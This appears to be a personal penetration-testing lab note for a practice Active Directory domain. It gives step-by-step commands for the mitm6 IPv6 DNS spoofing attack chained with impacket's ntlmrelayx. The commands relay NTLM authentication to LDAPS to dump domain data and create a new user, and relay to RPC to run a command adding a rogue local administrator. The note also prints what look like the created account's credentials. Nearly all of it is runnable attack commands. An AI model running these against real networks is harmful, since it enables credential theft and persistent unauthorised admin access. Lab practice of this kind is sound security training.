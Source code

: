 **Abuses the default IPv6 configuration in Windows networks to spoof DNS replies by acting as a malicious DNS server and redirect traffic to an attacker specified endpoint.  This tools is designed to use with ntlmrelayx **
```bash
cd /opt
```
```bash
git clone https://github.com/fox-it/mitm6.git && cd mitm6
```
```bash
sudo pip3 install .
```
```bash
sudo mitm6 -d marvel.local
```
```python
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -6 -t ldaps://$TARGET -wh fakewpad.marvel.local -l lootme > results
```
or
```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ntlmrelayx.py
```
Reboot windows box (either one?)
Wait awhile, look for lootme folder, was found in /home/kali
Boot into Windows 10 box with starlord creds.  Cancel running ntlmrelayx.py in Kali, analyze the results for new user creds.
![[Pasted image 20211222213706.png]]
`RTGVliYVpU`
`Va@A~y}lgYUKz=c`
go back Windows Server > Tools > Active Directory Users and Computers to find a new user was created.
![[Pasted image 20211222213811.png]]
https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
Try with code execution: (https://cheatsheet.haax.fr/windows-systems/exploitation/ipv6/)
```bash
ntlmrelayx.py -ip $TARGET -t rpc://example.local -c "net user xuser xpass /add && net localgroup Administrators xuser /add"
```